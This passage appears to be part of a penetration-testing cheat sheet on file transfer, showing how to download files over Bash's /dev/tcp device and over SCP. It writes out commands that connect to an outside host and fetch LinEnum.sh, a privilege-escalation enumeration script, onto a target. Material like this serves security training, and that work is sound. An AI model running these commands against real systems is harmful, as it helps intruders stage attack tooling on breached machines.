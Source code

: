 ### Download with Bash (/dev/tcp)

There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with `--enable-net-redirections`), the built-in `/dev/TCP` device file can be used for simple file downloads.

**Connect to the Target Webserver:**
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

**HTTP GET Request:**
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\nHost: 10.10.10.32\nConnection: close\n\n">&3
```

**Print the Response:**
```bash
cat <&3
```

**Complete Example:**
```bash
#!/bin/bash
exec 3<>/dev/tcp/10.10.10.32/80
echo -e "GET /LinEnum.sh HTTP/1.1\nHost: 10.10.10.32\nConnection: close\n\n">&3
cat <&3 | sed '1,/^$/d' > LinEnum.sh
```

### SSH Downloads

SSH (or Secure Shell) is a protocol that allows secure access to remote computers. SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol.

**Setup SSH Server (if needed):**
```bash
# Enable SSH server
sudo systemctl enable ssh

# Start SSH server
sudo systemctl start ssh

# Check SSH is listening
netstat -lnpt | grep :22
```

**Download Files Using SCP:**
```bash
scp user@192.168.49.128:/root/myroot.txt .
scp user@192.168.49.128:/root/myroot.txt /tmp/myroot.txt
```

**Download Directory Using SCP:**
```bash
scp -r user@192.168.49.128:/root/scripts/ /tmp/
```
